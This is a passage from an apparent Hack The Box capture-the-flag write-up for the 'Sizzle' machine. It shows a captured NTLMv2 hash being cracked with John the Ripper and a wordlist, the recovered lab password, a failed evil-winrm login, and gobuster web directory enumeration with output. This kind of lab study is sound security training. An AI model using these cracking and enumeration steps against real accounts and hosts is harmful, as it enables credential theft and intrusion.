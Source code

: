 
I got Amanda's hash, Time to crack it using JTR

Cracked the hash and the password is `Ashare1972`

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# john --wordlist=/usr/share/wordlists/rockyou.txt amanda 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)
1g 0:00:00:05 DONE (2020-07-30 19:29) 0.1763g/s 2013Kp/s 2013Kc/s 2013KC/s Ashiah08..Ariel!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

I tried to login with `evil-winrm` and doesn't work. So Let's continue enumerate.

## HTTP Enumeration

We know port 80 is open, and it displays an image.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%202.png)

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.103/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/30 19:31:40 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/certenroll (Status: 301)
```